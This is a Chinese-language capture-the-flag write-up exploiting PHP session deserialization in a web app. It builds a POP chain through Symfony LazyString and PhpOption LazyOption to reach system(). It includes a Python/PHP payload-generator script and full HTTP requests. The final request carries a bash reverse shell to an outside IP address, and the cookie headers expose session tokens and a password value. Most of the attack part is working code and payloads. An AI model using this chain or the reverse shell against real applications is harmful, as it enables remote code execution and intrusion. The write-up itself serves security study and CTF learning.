false ]; } return $res ; } }
在config路由下可以进行session存取操作,post方法可以将数据序列化后存入session中,get方法可以从session文件中取出数据进行反序列化后展示出来
进入docker查看session文件,确实是将数据序列化后存入的
GET方法展示数据
既然存在反序列化,是否能够利用该点
这里进行测试:
更改post中的数据,插入hackhack|i:123456789,在/config的get方法中查看结果
"dim":60 => "d|i:1;hackhack|i:123456789;im":60,
可以看到我们插入的恶意序列化代码被成功反序列化,并被展示出来
有了反序列化触发点,下面开始找pop链
进入到app/vendor目录下,我们可以看到存在symfony目录,没错这个题目也引入了symfony/string依赖,说明我们还可以利用上几个题目的漏洞点
再进入到app\vendor\phpoption\phpoption\src\PhpOption有一个LazyOption.php文件,下面截取部分代码分析
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 <?php ... namespace PhpOption ;use Traversable ;final class LazyOption extends Option private $callback ; private $arguments ; private $option ; ... public function isEmpty (bool { return $this ->option()->isEmpty(); } public function get ( { return $this ->option()->get(); } ... private function option (Option { if (null === $this ->option) { $option = call_user_func_array($this ->callback, $this ->arguments); if ($option instanceof Option) { $this ->option = $option ; } else { throw new \RuntimeException (sprintf('Expected instance of %s' , Option::class)); } } return $this ->option; } }
可以看到option()方法中存在参数可控的call_user_func_array方法调用,而在上面的成员方法isEmpty()以及get()等等都可以调用option()方法
再利用上一个题目的分析,我们可以得到pop链:
1 2 3 4 5 6 反序列化 ->字符串处理 ->LazyString#__toString() ->LazyOption#isEmpty() ->LazyOption#option() ->命令执行
生成payload
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 import os,requests url = "http://127.0.0.1:8001" proxy = {'http' : 'http://127.0.0.1:8080' } cookie = {'PHPSESSID' : 'rxxxx' } proxy_test = requests.get(url, proxies=proxy, cookies=cookie) code = b'' '<?php namespace Symfony\Component\String{ class LazyString{ private $value; public function __construct($value){ $this->value = $value; } } } namespace PhpOption{ abstract class Option{ } final class LazyOption extends Option{ private $option = null; private $callback; private $arguments; public function __construct(){ $this->callback = "system"; $this->arguments = array("touch /tmp/flag"); } } } namespace { use Symfony\Component\String\LazyString; $array = array(new PhpOption\LazyOption(),"get"); $lazy = new LazyString($array); print_r(json_encode(serialize($lazy))); } ' '' with open('exp.php' , 'wb+' ) as f: f.write(code) seri = os.popen('php exp.php' ).read() os.popen('del exp.php' ) payload = f"d|" + seri.strip('"' ) + "im" print ('[debug] payload is: ' + payload)
提交payload,拿到PHPSESSION
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 POST /config HTTP/1.1 Host: localhost:7777 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0 Accept: */* Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2 Accept-Encoding: gzip, deflate Referer: http://localhost:7777/settings.html content-type: application/json Origin: http://localhost:7777 Content-Length: 404 Connection: close Cookie: bdshare_firstime=1619663076819; XDEBUG_SESSION=XDEBUG_ECLIPSE; PHPSESSID=6a1c7378948498b4bed170d212bac7ee; __tins__713776=%7B%22sid%22%3A%201619663076391%2C%20%22vd%22%3A%208%2C%20%22expires%22%3A%201619665600834%7D; __51cke__=; __51laig__=12; _csrf=3067fb78f9b1447deb7a6307b8d9fa8fe35a0d13fefa00fe1c90ba7513aa9e08a%3A2%3A%7Bi%3A0%3Bs%3A5%3A%22_csrf%22%3Bi%3A1%3Bs%3A32%3A%224QLk0PKtqpkSXhwRmTv5HBysJPEuE2zl%22%3B%7D; __tins__17754207=%7B%22sid%22%3A%201624533245364%2C%20%22vd%22%3A%204%2C%20%22expires%22%3A%201624535118910%7D; isvipretainend=; vipPromorunningtmr=; discount_free_trigger=; token=s%3Aj%3A%7B%22id%22%3A1%2C%22username%22%3A%22tefuir%22%2C%22password%22%3A%22this_is_password%22%7D.SdGCWHkxHMFX8LEOhXG2%2FZR6UwoxLbXmh%2FxdcI%2FWq0s; lg=cn; PbootSystem=bpvv29memg47vqoe3jmv62tjdp; session=5243527576976910940%7ChrQTOaK93YFVBrjGnVzRrngHQNZQIRah30IP9aGRTOuSoeGDZ.FEixAK6PshBIiQ5ovaqlbP3gljneaCnu8AC1; _ga=GA1.1.946040824.1641209883; _gid=GA1.1.1662565044.1641209883; _gat_gtag_UA_169262247_1=1 Sec-Fetch-Dest: empty Sec-Fetch-Mode: cors Sec-Fetch-Site: same-origin {"e":"b","d|O:35:\"Symfony\\Component\\String\\LazyString\":1:{s:42:\"\u0000Symfony\\Component\\String\\LazyString\u0000value\";a:2:{i:0;O:20:\"PhpOption\\LazyOption\":3:{s:28:\"\u0000PhpOption\\LazyOption\u0000option\";N;s:30:\"\u0000PhpOption\\LazyOption\u0000callback\";s:6:\"system\";s:31:\"\u0000PhpOption\\LazyOption\u0000arguments\";a:1:{i:0;s:15:\"touch \/tmp\/flag\";}}i:1;s:3:\"get\";}}im":"a"}
带上PHPSESSION去访问/config接口
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 GET /config HTTP/1.1 Host: localhost:7777 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0 Accept: */* Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2 Accept-Encoding: gzip, deflate Referer: http://localhost:7777/settings.html content-type: application/json Origin: http://localhost:7777 Content-Length: 445 Connection: close Cookie: bdshare_firstime=1619663076819; XDEBUG_SESSION=XDEBUG_ECLIPSE; PHPSESSID=6a1c7378948498b4bed170d212bac7ee; __tins__713776=%7B%22sid%22%3A%201619663076391%2C%20%22vd%22%3A%208%2C%20%22expires%22%3A%201619665600834%7D; __51cke__=; __51laig__=12; _csrf=3067fb78f9b1447deb7a6307b8d9fa8fe35a0d13fefa00fe1c90ba7513aa9e08a%3A2%3A%7Bi%3A0%3Bs%3A5%3A%22_csrf%22%3Bi%3A1%3Bs%3A32%3A%224QLk0PKtqpkSXhwRmTv5HBysJPEuE2zl%22%3B%7D; __tins__17754207=%7B%22sid%22%3A%201624533245364%2C%20%22vd%22%3A%204%2C%20%22expires%22%3A%201624535118910%7D; isvipretainend=; vipPromorunningtmr=; discount_free_trigger=; token=s%3Aj%3A%7B%22id%22%3A1%2C%22username%22%3A%22tefuir%22%2C%22password%22%3A%22this_is_password%22%7D.SdGCWHkxHMFX8LEOhXG2%2FZR6UwoxLbXmh%2FxdcI%2FWq0s; lg=cn; PbootSystem=bpvv29memg47vqoe3jmv62tjdp; session=5243527576976910940%7ChrQTOaK93YFVBrjGnVzRrngHQNZQIRah30IP9aGRTOuSoeGDZ.FEixAK6PshBIiQ5ovaqlbP3gljneaCnu8AC1; _ga=GA1.1.946040824.1641209883; _gid=GA1.1.1662565044.1641209883; _gat_gtag_UA_169262247_1=1; PHPSESSION=2fda02d69a7294604d60af2ea07551fd Sec-Fetch-Dest: empty Sec-Fetch-Mode: cors Sec-Fetch-Site: same-origin {"e":"b","d|O:35:\"Symfony\\Component\\String\\LazyString\":1:{s:42:\"\u0000Symfony\\Component\\String\\LazyString\u0000value\";a:2:{i:0;O:20:\"PhpOption\\LazyOption\":3:{s:28:\"\u0000PhpOption\\LazyOption\u0000option\";N;s:30:\"\u0000PhpOption\\LazyOption\u0000callback\";s:6:\"system\";s:31:\"\u0000PhpOption\\LazyOption\u0000arguments\";a:1:{i:0;s:53:\"bash -c 'bash -i >& \/dev\/tcp\/101.43.35.153\/8889 0>&1'\";}}i:1;s:3:\"get\";}};im":"a"}
命令执行结果
参考 https://team-su.github.io/passages/2021-12-25-SCTF/